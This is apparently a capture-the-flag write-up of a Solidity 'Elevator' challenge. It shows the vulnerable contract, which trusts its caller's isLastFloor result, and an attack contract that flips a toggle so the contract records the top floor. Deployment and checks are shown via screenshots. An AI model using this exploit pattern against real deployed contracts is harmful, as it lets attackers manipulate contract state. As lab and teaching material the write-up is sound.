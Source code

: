 # Task

This elevator won't let you reach the top of your building. Right?

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```
This Solidity contract simulates an elevator system with two main components: `Building` and `Elevator`. The `Elevator` contract has a `goTo` function that takes a floor number and interacts with a `Building` contract (the caller). It first checks if the floor is the last floor using the `isLastFloor` function from the `Building` contract. If it's not the last floor, it updates the current floor and checks again to determine if the elevator is at the top floor. The `top` variable reflects whether the elevator has reached the top floor.

Lets get the contract address and contract abi

![image](https://github.com/user-attachments/assets/516d6c35-6444-48f6-aaa2-42618867c170)

We'll start out by using cast to check the state of the elevator

![image](https://github.com/user-attachments/assets/fb8e9fdf-ab41-4ed3-ad3e-f26a50dcd251)

We get the "false" response, this means we aren't at the top of the building yet

Lets check the floor we are at

![image](https://github.com/user-attachments/assets/111dcded-99a1-4041-bc06-9c533ab567f9)

We are at floor "0".

To solve this chall we have to be on the last floor. Lets write our attack contract

```sol
//SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./elevator.sol";

contract elevatorAttack {
   bool public toggle = true;
   Elevator public target;

   constructor(address _targetAddr) public {
    target = Elevator(_targetAddr);
   }
   
   function isLastFloor(uint) public returns (bool) {
        toggle = !toggle;
        return toggle;
   }

    function setTop(uint _floor) public {
        target.goTo(_floor);
    }
}
```


Lets deploy this attack contract with forge

![image](https://github.com/user-attachments/assets/65925b13-aaa0-44a1-bbfa-82150462beb8)

Now that we've successfully deployed this, lets interact with the functions

We'll start by setting the top to say "floor 20" 

![image](https://github.com/user-attachments/assets/61aa3195-57ba-409d-a65b-90c9475a6a52)

Nicee, our transaction got successful

Now, lets check the floor again

![image](https://github.com/user-attachments/assets/c5b0cedd-c783-4f62-b0e3-91427dd2b15e)

Good, we can now go ahead to check if we are at the top of the elevator or not

![image](https://github.com/user-attachments/assets/e116090a-dc35-45a4-8e9f-904159927b57)

We got the "true" output, which means we have successfully reached the top of the building

You can go ahead to submit the instance

![image](https://github.com/user-attachments/assets/54e745ce-906d-488e-8902-2e78cc499218)







































